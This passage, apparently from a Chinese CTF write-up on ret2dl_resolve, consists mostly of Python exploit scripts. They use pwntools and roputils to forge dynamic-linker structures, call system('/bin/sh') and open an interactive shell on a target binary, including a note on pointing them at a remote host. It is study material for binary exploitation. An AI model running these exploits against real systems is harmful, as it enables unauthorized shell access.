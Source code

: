 ```python
    payload2 += 'A'*(0x30-0x8-len(payload2)) + faked_relplt + 'b'*align
    payload2 += faked_dynsym
    payload2 += 'system\x00a'
    payload2 += '/bin/sh\x00'
    p.sendline(payload2)

    p.interactive()

if __name__ == '__main__':
    main()
```

使用工具 roputils :  (复制自官方[i386demo](https://github.com/inaz2/roputils/blob/master/examples/dl-resolve-i386.py))

```python
#coding:utf-8
from roputils import *

fpath = sys.argv[1]
offset = int(sys.argv[2])

rop = ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(rop.fpath)
p.write(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.write(buf)
p.interact(0)
```

- `Python2 file.py binary 0x88`
- 如果是远程地址, 只需要把`proc(rop.fpath)`改为`proc(host="xxx.com", port=8888)`



_x64 64位环境 :_ (同样修改自官方 [x86_64demo](https://github.com/inaz2/roputils/blob/master/examples/dl-resolve-x86-64.py))

```python
from roputils import *

DEBUG = 1
fpath = sys.argv[1]
offset = 0x88
p4ret = 0x4006ac

rop = ROP(fpath)
addr_stage = rop.section('.bss') + 0x400
ptr_ret = rop.search(rop.section('.fini'))

buf = rop.retfill(offset)
buf += rop.call_chain_ptr(
    ["write", 1, rop.got()+8, 8],
    ["read", 0, addr_stage, 350]
, pivot=addr_stage)
```